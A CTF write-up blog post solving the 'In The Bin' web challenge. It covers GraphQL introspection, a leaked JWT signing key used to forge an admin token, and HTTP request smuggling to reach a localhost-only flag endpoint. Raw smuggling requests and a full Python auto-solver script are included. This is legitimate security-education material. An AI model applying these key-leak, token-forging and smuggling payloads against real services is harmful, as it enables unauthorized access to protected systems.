 ```yaml
---
layout: post
title: ISSessionsCTF - "In The Bin" - GraphQL, JWT, Request Smuggling
---
```


### Introduction & Discovery
I'm writing this post as the ISSessions 2025 CTF comes to its conclusion. There were many great challenges worth writing about, but this write-up will be focused on my solution and first-blood to the KPMG sponsored challenge, `"In The Bin"`. I found this challenge to be the most unique out of the bunch.

![Photo of In The Bin](https://i.imgur.com/tAZUoxy.png)

The description is vague, just a reference to authentication tokens and a link to check out. Visiting the URL greets you with a fairly sterotypical corporate website design for all your construction container needs.

![Photo of home page](https://i.imgur.com/aBomWca.png)

As always, I poked around the website, looking at the HTML, JavaScript, CSS, and HTTP response headers for any interesting information which may help narrow down potential vulnerabilities. From this, I came across two links on the website with GraphQL and API documentation.
![https://issessionsctf-web-kpmg.chals.io/dev-old](https://i.imgur.com/y3x9Z3d.png)
![https://issessionsctf-web-kpmg.chals.io/graphql-docs](https://i.imgur.com/RfO2EF3.png)

Along with this, basic directory enumeration was able to discover two hidden endpoints which return error 403 on GET requests.
1. `/flag`
2. `/protected`

Maybe once we figure out the authentication issues, we can revisit this.

### Investigating GraphQL
I've only submitted two bugs at this point related to breaking GraphQL implementations, so I'm still quite new to it all. I referenced some queries on [HackTricks which can be found here](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/graphql.html), using introspection to discover schema information with which gave me the following to work with:

{% highlight javascript %}
{
	"__schema": {
		"types": [{
			"fields": [{
				"name": "endpointInfo"
			}, {
				"name": "randomFact"
			}, {
				"name": "secretHint"
			}],
			"name": "Query"
		}, {
			"fields": [{
				"name": "jwtConfig"
			}, {
				"name": "generateToken"
			}, {
				"name": "debugLog"
			}, {
				"name": "generateKey"
			}],
			"name": "Mutation"
		}
		/* ... removed large portion of the response for clarity ... */
	}
}
{% endhighlight %}

This indicated to me that some of the "available queries" such as `passwordReset` and `loginActivity` were not actually available for usage. The most interesting of the bunch was `debugLog`, so I crafted the following HTTP request to be sent to the GraphQL endpoint.

{% highlight http %}
POST /graphql HTTP/1.1
Host: issessionsctf-web-kpmg.chals.io
Content-Type: application/json
Content-Length: 57

{
  "query": "mutation { debugLog(level: \"INFO\") }"
}
{% endhighlight %}

![Debug Log Result](https://i.imgur.com/zLutIWt.png)
The result of this request was huge, including things such as debugging information, authentication information, and general logging. Going over this information my eye was caught by this base64 string highlighted in the image above. Decoding the string gave me the following plaintext:

{% highlight graphql %}
mutation { jwtConfig(key: "SECRET_REQUEST")}
{% endhighlight %}

Of course, I had to run this to see what it gives me:
![Secret request???](https://i.imgur.com/EIiDj3y.png)

Bingo! This looks like a secret key for signing their JWT tokens... Time to learn more about the authentication mentioned in the description.

### Investigating the API and tokens
I tested all the API endpoints, all except one returned the status of 404 with the message `"Route to /${path} is not found"`. Out of the list, `/auth/tokens` was the only one which responded to a GET or POST request. Here is what the result of that looked like.
![TOKENS!](https://i.imgur.com/PV9CAY2.png)

The tokens appear to be broken or expired, with the bottom one belonging to an admin account. The signature of this token includes an `&` symbol which is not valid base64.

From the hint at the start of the JSON response, I decided to try and fix this token by re-signing it with my newly obtained key from the JWT config. [jwt.io](https://jwt.io) is a great resource for modifying JWT tokens, so that is what I used.
![Resigning the token](https://i.imgur.com/DlP7qn0.png)

If you recall from the very start, there is still those pesky `/flag` and `/protected` endpoints which required authentication. I set my newly crafted token using the `Authorization` header, and tried again.

`/flag` returned the following. It appears that it will only accept requests which are coming from the server which this is running on.
![Flag endpoint result](https://i.imgur.com/SPg38MZ.png)

`/protected` on the other hand returned a hint, something about smuggling happening with the containers.
![Protected endpoint result](https://i.imgur.com/84Ge0NH.png)

Embarrasingly to admit, I initally thought this may have been a reference to steganography and "smuggling secrets" from the images found on the homepage. I then came to learn that this was not the case, this message is a reference to [HTTP request smuggling attacks](https://portswigger.net/web-security/request-smuggling).

### Smuggling!
The plan of action is the send a smuggling request to `/protected`, and tricking the server into giving us the response to `/flag`. This part was quite tedious as when you send an invalid request, the webserver will restart and give you a new private key for the JWT token. After quite a bit of time tweaking headers such as content length & trying different options like GET / POST to `/flag`, I was able to craft this payload. I set the `Host` header of the smuggled HTTP request to be `localhost` as a request from internally is required to get a valid response.

{% highlight http %}
POST /protected HTTP/1.1
Host: issessionsctf-web-kpmg.chals.io
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.Sr-OG-sOYCvuA_cLAas2R5I3onI_csZ9sNKPrwJtmF0
Content-Length: 215

0

GET /flag HTTP/1.1
Host: localhost
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.Sr-OG-sOYCvuA_cLAas2R5I3onI_csZ9sNKPrwJtmF0
{% endhighlight %}

![FLAG FOUND!](https://i.imgur.com/E8cIWXt.png)

There, we got the flag, along with first-blood on the challenge! `bhbureauctf{Sh1pp3d_4nd_D3l1v3r3d_Succ3ssfu11y___}`

I didn't dive too deep into how an HTTP request smuggling attack works. If you are interested in learning more about this rare attack vector, [here is the post written by p4k03n4t0r which I used as reference when creating my payload.](https://github.com/p4k03n4t0r/http-request-smuggling)


### Autosolver by SK
Generously "sk" from the ISSessions CTF Discord wrote a great auto-solver script for the challenge after I shared my solution. I'd like to give a [shoutout to his GitHub](https://github.com/shivakaushal) for this.
![Autosolver](https://i.imgur.com/L5kGuOQ.png)

{% highlight python %}
import requests
import json
import jwt

graphql_url = "https://issessionsctf-web-kpmg.chals.io/graphql"
headers = {
    "Host": "issessionsctf-web-kpmg.chals.io",
    "Content-Type": "application/json",
    "Connection": "keep-alive"
}
data = {
    "query": "mutation { jwtConfig(key: \"SECRET_REQUEST\") }"
}

response = requests.post(graphql_url, json=data, headers=headers)

if response.status_code == 200:
    try:
        response_json = response.json()
        secret_key = response_json.get("jwtConfig", "").split(": ")[-1]
        print("Extracted Secret Key:", secret_key)
        
        # Original JWT payload (use last JWT from https://issessionsctf-web-kpmg.chals.io/auth/tokens)
        payload = {
            "sub": "1234567890",
            "user": "admin",
            "iat": 1516239022
        }
        
        # Resigning the JWT with the extracted secret key
        new_jwt = jwt.encode(payload, secret_key, algorithm="HS256")
        print("Resigned JWT:", new_jwt)
        
        # Use the resigned JWT to access GET /protected
        protected_url = "https://issessionsctf-web-kpmg.chals.io/protected"
        protected_headers = {
            "Authorization": f"Bearer {new_jwt}"
        }
        protected_response = requests.get(protected_url, headers=protected_headers)
        
        print("\n\nProtected Endpoint Response:", protected_response.status_code)
        print(protected_response.text)

        req_smuggling_headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Content-Length": "50",
            "Authorization": f"Bearer {new_jwt}"
        }

        # Smuggling Payload (Chunked Transfer Encoding attack)
        smuggled_body = (
            "0\r\n"  # End of first request
            "\r\n"
            "GET /flag HTTP/1.1\r\n"
            "Host: localhost\r\n"
            f"Authorization: Bearer {new_jwt}\r\n"
        )

        smuggled_response = requests.post(protected_url, headers=req_smuggling_headers, data=smuggled_body)
        print(smuggled_response.text)

    except json.JSONDecodeError:
        print("Failed to parse JSON response")
else:
    print("Request failed with status code:", response.status_code)
    print(response.text)
{% endhighlight %}

![Hack the planet](https://media.tenor.com/K8R7LThju04AAAAC/hack-the-planet.gif)